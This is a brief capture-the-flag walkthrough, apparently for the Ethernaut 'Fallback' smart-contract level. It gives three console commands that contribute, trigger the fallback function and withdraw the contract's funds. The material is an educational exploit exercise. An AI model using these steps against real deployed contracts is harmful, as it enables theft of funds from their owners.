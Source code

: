 # Level 1 - Fallback

Exploit flow:

1. Contribute to the contract via the ```contribute()``` function
2. Send some wei to the contract's address to trigger the ```fallback()``` function
3. Withdraw the money

In the console:

```js
await contract.contribute({value: 1})
await contract.sendTransaction({value: 1})
await contract.withdraw()
```
